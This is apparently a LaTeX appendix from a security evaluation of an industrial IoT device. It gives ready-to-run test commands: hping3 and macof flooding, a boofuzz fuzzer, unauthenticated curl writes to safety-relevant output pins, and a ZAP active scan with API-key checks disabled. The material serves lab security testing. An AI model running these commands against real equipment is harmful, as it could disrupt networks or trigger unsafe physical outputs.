 \section{Layer-Two and Network Flooding}
\label{app:cmd_flood}
\begin{verbatim}
	sudo hping3 --flood --rand-source $SRIO
	sudo macof -i eth1
\end{verbatim}

\section{Robustness under Malformed Input}
\label{app:cmd_robustness}
\begin{verbatim}
	# boofuzz fuzzing script 
	# File: cm010_fuzz.py
	from boofuzz import *
	
	session = Session(target=Target(connection=TCPSocketConnection("$SRIO", 80)))
	s_initialize("request")
	s_string("USER")        # field to fuzz
	s_delim(" ")
	s_string("value")
	session.connect(s_get("request"))
	session.fuzz()
	
	# Run it:
	python3 cm010_fuzz.py
	
\end{verbatim}

\section{Access Control and Configuration Interfaces}
\label{app:cmd_access}
\begin{verbatim}
	# Write probe against safety-relevant IoT-Core nodes
	curl -s -X POST http://$SRIO/safecom/f_address/setdata \
	-d '{"value":123}' -w "%{http_code}\n"
	curl -s -X POST http://$SRIO/io/do/port7/pin4/digital_output/setdata \
	-d '{"value":true}' -w "%{http_code}\n"
	curl -s -X POST http://$SRIO/devicetag/applicationtag/setdata \
	-d '"factoryXYZ"' -w "%{http_code}\n"
	# Active web scan through a local proxy
	# Disabling the API key is acceptable only in the isolated laboratory.
	zaproxy -daemon -host 127.0.0.1 -port 8090 -config api.disablekey=true
	curl "http://127.0.0.1:8090/JSON/spider/action/scan/?url=http://$SRIO/"
\end{verbatim}
